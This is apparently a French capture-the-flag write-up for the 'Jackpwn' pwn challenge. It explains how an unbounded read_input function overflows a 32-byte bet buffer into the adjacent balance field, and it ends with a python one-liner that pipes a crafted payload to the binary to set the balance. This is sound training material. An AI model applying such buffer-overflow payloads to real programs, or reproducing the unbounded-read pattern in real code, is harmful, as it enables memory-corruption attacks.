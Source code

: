 # pwn - Jackpwn

L'objectif du challenge est d'avoir un solde de 0x1337 à la
fin d'un tour. Il n'est pas possible d'obtenir un tel solde de
manière légitime car 0x1337 (4919) est impair et le solde est
incrémenté ou décrémenté de 2 à chaque tour, en partant de 50.

## Vulnérabilité

La fonction `read_input` ne prend pas en compte la taille du
buffer passé en argument, il y a donc un buffer overflow.

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
// [...]

int main() {
    // [...]
    read_input(ctx.mise);
    // [...]
```

La variable `ctx.mise` est concernée par ce buffer overflow et
est située juste avant le solde.

```c
struct {
    char mise[32];
    int solde;
} ctx;
```

Il faut donc envoyer plus de 32 caractères pour changer le
solde de manière arbitraire.

La mise doit être valide pour être acceptée. Elle doit
vérifier une des conditions suivantes :
```c
if (!strcmp(ctx.mise, "rouge")) {
    valide = rouge = 1;
} else if (!strcmp(ctx.mise, "noir")) {
    valide = noir = 1;
} else if (!strcmp(ctx.mise, "pair")) {
    valide = pair = 1;
} else if (!strcmp(ctx.mise, "impair")) {
    valide = impair = 1;
} else {
    puts("Mise invalide");
}
```

Le joueur peut donc envoyer "pair" suivi d'un null-byte et de
`32-4-1` caractères, puis la valeur 0x1337-2 en little-endian
pour valider le challenge.

Il faut gagner la manche pour avoir un solde égal à 0x1337 et
afficher le flag.

```sh
python3 -c 'import sys; sys.stdout.write("pair\x00" + "A"*(32-4-1) + "\x35\x13\x00\x00" + "\n")' | ./chall
```
